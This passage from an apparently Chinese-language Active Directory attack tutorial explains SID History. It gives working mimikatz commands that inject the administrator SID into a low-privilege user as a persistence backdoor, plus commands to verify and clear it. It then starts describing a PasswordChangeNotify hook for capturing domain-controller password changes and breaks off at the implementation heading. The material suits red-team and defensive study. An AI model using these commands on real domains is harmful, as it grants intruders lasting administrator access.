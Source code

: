 SID History 是在域迁移过程中需要使用的一个属性。

如果将 A 域中的域用户迁移到 B 域中，那么在 B 域中该用户的 SID 会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。

**SID History 的作用是在域迁移过程中保持域用户的访问权限**，即如果迁移后用户的 SID 改变了，系统会将其原来的 SID 添加到迁移后用户的 SID History 属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。

使用 mimikatz，可以将 SID History 属性添加到域中任意用户的 SID History 属性中。在实战中，如果获得了域管理员权限，则可以将 SID History 作为实现持久化的方法。

#### [](#241-%E6%B7%BB%E5%8A%A0-sid-history-%E5%90%8E%E9%97%A8)2.4.1 添加 SID History 后门

打开一个具有域管理员权限的命令行窗口，然后打开 mimikatz，将 administrator 的 SID 添加到 hack 用户的 SID History 属性中。

> 需要注意的是，在使用 mimikatz 注入 SID 之前，需要使用 sid::patch 命令修复 NTDS 服务，否则无法将高权限的 SID 注入低权限用户的 SID History 属性

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::add /new:administrator /sam:test" "exit"<br># 将 administrator 的 SID 添加到 hack 的 SID History 属性中<br>``` |

#### [](#242-%E6%9F%A5%E7%9C%8B-sid-history)2.4.2 查看 SID History

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module activedirectory<br>Get-ADUser hack -Properties sidhistory<br>``` |

#### [](#243-%E6%B8%85%E9%99%A4-sid-history)2.4.3 清除 SID History

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"<br>``` |

### [](#25-hook-passwordchangenotify)2.5 Hook PasswordChangeNotify

#### [](#251-%E8%83%8C%E6%99%AF)2.5.1 背景

在修改域控密码时会进行如下同步操作：

1.  当修改域控密码时，LSA 首先调用 PasswordFileter 来判断新密码是否符合密码复杂度要求
2.  如果符合，LSA 接着调用 PasswordChangeNotify 在系统上同步更新密码

函数 PasswordChangeNotify 存在于 rassfm.dll

rassfm.dll 可理解为 Remote Access Subauthentication dll，只存在于在 Server 系统下，xp、win7、win8 等均不存在

#### [](#252-%E7%89%B9%E7%82%B9)2.5.2 特点

1.  不需要重启
2.  不需要修改注册表
3.  甚至不需要在系统放置 dll

#### [](#253-%E5%AE%9E%E7%8E%B0)2.5.3 实现
